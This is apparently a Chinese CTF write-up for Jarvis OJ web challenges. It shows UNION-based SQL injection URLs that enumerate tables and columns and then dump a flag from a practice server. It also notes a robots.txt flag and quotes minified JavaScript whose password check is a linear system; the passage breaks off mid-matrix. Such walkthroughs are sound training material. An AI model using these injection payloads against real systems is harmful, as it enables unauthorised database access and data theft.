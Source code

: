 ```bash
```
爆表名
```bash
http://web.jarvisoj.com:32794/?table=test` `union select GROUP_CONCAT(table_name) from information_schema.tables where table_schema=0x363164333030 limit 1,1
```
爆列名
```bash
?table=test` `union select group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167 limit 1,1
```
脱裤
```bash
http://web.jarvisoj.com:32794/?table=test` `union select flagUwillNeverKnow from secret_flag limit 1,1 
```
# admin
从robots.txt 中，范文不允许访问的路径，即可得到flag
# web?
根据输入的Wrong Password!! 在app.js中定位到如下 js代码
```bash
$.post("checkpass.json",t,function(t){
	self.checkpass(e)?self.setState({
		errmsg:"Success!!",
		errcolor:b.green400
		}):(self.setState({
			errmsg:"Wrong Password!!",
			errcolor:b.red400
		}),setTimeout(function(){
				self.setState({
					errmsg:""
				})
		  },3e3))
})
```
有个checkpass(e)，定位到该处得到
```bash
r.checkpass=function(){
	var e;
	return(e=r).__checkpass__REACT_HOT_LOADER__.apply(e,arguments)
}
```
发现一个线性方程
```bash
{key:"__checkpass__REACT_HOT_LOADER__",
	value:function(e){
		if(25!==e.length)
			return!1;
		for(var t=[],n=0;n<25;n++)
			t.push(e.charCodeAt(n));
			for(var r=[325799,309234,317320,327895,298316,301249,330242,289290,273446,337687,258725,267444,373557,322237,344478,362136,331815,315157,299242,305418,313569,269307,338319,306491,351259],
			o=[[11,13,32,234,236,3,72,237,122,230,157,53,7,225,193,76,142,166,11,196,194,187,152,132,135],
			   [76,55,38,70,98,244,201,125,182,123,47,86,67,19,145,12,138,149,83,178,255,122,238,187,221],
			   [218,233,17,56,151,28,150,196,79,11,150,128,52,228,189,107,219,87,90,221,45,201,14,106,230],
			   [30,50,76,94,172,61,229,109,216,12,181,231,174,236,159,128,245,52,43,11,207,145,241,196,80],
			   [134,145,36,255,13,239,212,135,85,194,200,50,170,78,51,10,232,132,60,122,117,74,117,250,45],
```